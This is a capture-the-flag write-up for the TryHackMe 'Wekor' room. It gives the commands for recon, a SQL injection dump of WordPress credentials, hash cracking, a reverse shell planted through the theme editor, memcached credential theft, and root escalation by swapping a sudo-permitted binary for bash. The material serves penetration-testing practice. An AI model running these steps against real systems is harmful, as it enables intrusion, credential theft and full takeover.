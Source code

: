 # Write-Up — [Wekor](https://tryhackme.com/room/wekorra) (TryHackMe)

## Overview
The Wekor room challenges you to complete a full penetration testing chain: from initial recon and site discovery to SQL injection, WordPress exploitation, memcached abuse, and privilege escalation to root. This room is a great opportunity to strengthen your recon, web exploitation, and Linux privilege escalation skills.

## Initial Scanning
```python
nmap -sC -sV -T4 10.10.132.94
```

Open Ports:

* 80/tcp — HTTP

* 22/tcp — SSH

## Web Recon

```python
gobuster dir -u http://10.10.132.94 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt
```
Found robots.txt with interesting disallowed directories:

```python
/workshop/
/root/
/lol/
/agent/
/feed
/crawler
/boot
/comingreallysoon
/interesting
```
In ```/comingreallysoon``` we find a message:

> “We’ve setup our latest website on /it-next…”

## Exploring /it-next
The ```/it-next``` site is an IT shopping platform.

Visiting ```/it-next/it_cart.php```, we find a coupon input field.

Trying ```' OR 1=1#``` triggers an SQL error — likely SQL injection.

## Exploiting the SQL Injection
Capture the request with Burp Suite

Right-click → Save Item

Use sqlmap:
```python
sqlmap -r request.txt --dbs
```
Found databases — we're interested in wordpress:
```python
sqlmap -r request.txt -D wordpress --tables
sqlmap -r request.txt -D wordpress -T wp_users --dump
```
## Extracting WordPress Credentials
In ```wp_users```, we retrieve WordPress usernames and hashed passwords.

Add this to ```/etc/hosts```:

```python
10.10.132.94 site.wekor.thm wekor.thm
```
Save the hashes and crack them with John:
```pythom
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
We recover 2 passwords. One of them belongs to ```wp_yura```, an admin.

## WordPress RCE via Theme Editor

Login at:
```http://site.wekor.thm/wordpress/wp-admin```

Go to Appearance → Theme Editor → 404.php

Insert a reverse shell

Start listener:
```python
nc -lvnp 4444
```
Open:
```http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php```

## Investigating the System – memcached
We discover the ```memcached``` service running on port ```11211```.
```python
telnet localhost 11211
get username
get password
```
Retrieve credentials for user ```Orka```

## Switching to Orka

Stabilize the shell:
```python
export TERM=xterm
python -c 'import pty; pty.spawn("/bin/sh")'
```
Switch to user:
```python
su Orka
```
Read ```user.txt```

## Privilege Escalation

Check for sudo permissions:
```python
sudo -l
(ALL) /home/Orka/Desktop/bitcoin
```
Exploit by replacing the binary:
```python
mv Desktop olddesktop
mkdir Desktop
cp /bin/bash ./Desktop/bitcoin
sudo ./Desktop/bitcoin
```
You get a root shell.
```python
cat /root/root.txt
```
## Conclusion

Wekor is an excellent example of a real-world-style attack chain, covering recon, SQL injection, WordPress exploitation, service abuse, and privilege escalation. A perfect training ground for anyone practicing OSCP-style techniques.


